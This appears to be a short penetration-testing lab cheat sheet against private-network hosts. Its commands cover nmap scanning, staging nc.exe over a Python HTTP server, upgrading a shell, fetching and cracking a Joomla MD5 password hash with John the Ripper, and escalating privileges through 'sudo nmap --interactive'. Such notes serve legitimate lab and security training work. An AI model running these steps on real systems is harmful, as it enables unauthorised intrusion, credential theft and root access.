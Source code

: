 192.168.1.12 ubuntu

192.168.1.13 windows

**nmap scan ports**

```
#> nmap -sV -sC 192.168.1.12

```



**start a simple http server**

```
#> python3 -m http.server 80
```



**prepare nc.exe on Kali**

```
#> cp /usr/share/windows-binaries/nc.exe .
```

------

------



**spawn bash shell**

```
$ python -c "import pty;pty.spawn('/bin/bash')"

ctrl-z

$ stty raw -echo
$ fg
```



**crack the hash**

192.168.1.12/joomla/password

```
curl 192.168.1.12/joomla/password -o passwd
```





<https://crackstation.net/>

```
$ hash-identifier

$ john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt ./pwd.hash
$ john --format=raw-MD5 --show ./pwd.hash
```



```
http://192.168.1.12/joomla/templates/protostar/index.php
```

```
sudo -l 

sudo nmap --interactive
!bash
```

